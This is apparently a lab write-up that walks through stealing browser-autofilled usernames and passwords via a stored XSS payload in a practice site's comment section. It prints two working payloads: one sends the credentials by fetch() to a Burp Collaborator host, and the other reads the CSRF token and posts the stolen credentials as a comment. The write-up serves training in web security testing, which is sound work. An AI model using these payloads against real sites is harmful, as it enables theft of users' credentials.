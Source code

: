 In this lab, we must already know which fields we want to steal. We want to steal the `username` and `password` fields of the user. We will find an XSS point, and then add a payload that will submit an HTTP request to our Burp Collaborator server with the input fields of the username and password fields. Note that both of these fields must be autofulfilled by the browser, so the user has to accept the autofulfillment. In this case, the user has accepted them, so he is vulnerable.

We will try adding an XSS payload in the comment section:![](imgs/xss_password_steal.png)

The script gets executed, so we know there is an XSS:
![](imgs/xss_password_steal-1.png)

We now create our specialized script with two input fields, `username` and `password`. These will be fulfilled by the browser, and then sent to our Burp Collaborator server.
The payload that is explained by Burp Suite is the following:

`
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```
They are two input fields, both with the name copied from real input names of the website (so the browser autoplaces content there), and then, the password field has a script that sents a request to our Burp Collaborator server with the content of **both fields**. This script will be triggered when the field changes, this is when the browser places the password in the field automatically.

Adding this script as the XSS payloads effectively makes us obtain the credentials of the user in Burp's collaborator:
![](imgs/xss_password_steal-3.png)

Note that this lab can be solved with another type of scripts. I like this more:
```javascript
<form><input type="text" id="username" name="username"></form>
<form><input type="password" id="password" name="password"></form>
<script>
window.onload = function(e) {
    setTimeout(function() {
        var csrf = document.getElementsByName("csrf")[0].value;
        var username = document.getElementById("username").value;
        var passw = document.getElementById("password").value;
        console.log(csrf);
        fetch('https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/post/comment', {
            method: 'POST',
            body: 'csrf=' + csrf + '&postId=3&comment=Username: ' + username + ', Password: ' + passw + '&name=Jan&email=admin%40cmdnctrl.net&website='
        });
    }, 2500);
};
</script>
```

The usage of this script is the same, but we can see that first we declare the fields and then we append an script that extact this information after a timeout of 2.5s.

Anyways, we got this laboratory:
![](imgs/xss_password_steal-4.png)

